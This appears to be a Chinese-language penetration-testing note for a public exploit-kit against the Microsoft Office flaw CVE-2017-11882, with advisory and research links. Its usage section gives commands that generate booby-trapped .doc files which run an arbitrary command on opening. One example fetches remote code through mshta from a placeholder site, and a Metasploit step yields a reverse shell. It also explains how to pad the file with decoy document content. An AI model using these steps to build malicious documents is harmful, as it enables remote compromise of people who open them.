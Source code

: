 CVE-2017-11882: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/

MITRE CVE-2017-11882: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11882

Research: https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about

Patch analysis: https://0patch.blogspot.ru/2017/11/did-microsoft-just-manually-patch-their.html

DEMO PoC exploitation: https://www.youtube.com/watch?v=LNFG0lktXQI&lc=z23qixrixtveyb2be04t1aokgz10ymfjvfkfx1coc3qhrk0h00410

43b命令长度不能超过43 bytes，109b命令长度不能超过109 bytes

关于自定义内容：只需要文本文件打开正常的文档rtf，复制{*\datastore 之前的所有内容，替换 {\object\objautlink\objupdate之前的内容即可，所以写到脚本里面就很简单了

添加自定义内容使用方式,选择任意脚本：

```
python Command109b_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc -i input.rtf
```

自定义内容在input.rtf中

> Usage

1.生成漏洞doc文件，可以弹出计算器如下：

```python
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
[*] Done ! output file >> test.doc <<
```

用命令生成test.doc后，用Offcie 2013打开这个文件，可以看到在打开doc文件的时候，弹出计算器

2.生成漏洞doc文件获取shell

利用`PS_shell.rb`生成一个恶意链接，利用`mshta`这个命令来执行这个恶意链接反弹一个shell。

要用到`PS_shell.rb`这个脚本，下载地址：[PS_shell.rb](https://github.com/starnightcyber/CVE-2017-11882/edit/master/PS_shell.rb)

下载脚本放到`/usr/share/metasploit-framework/modules/exploits/windows/`目录下。

msf执行命令：reload_all

<img src="./../../../../../../../../OneDrive - 0c26d/文档/武器库/Documents/渗透笔记/渗透.assets/image-20230802133611487.png" alt="image-20230802133611487" style="zoom:50%;" /> ![image-20230802135948601](./主机渗透.assets/image-20230802135948601.png) 
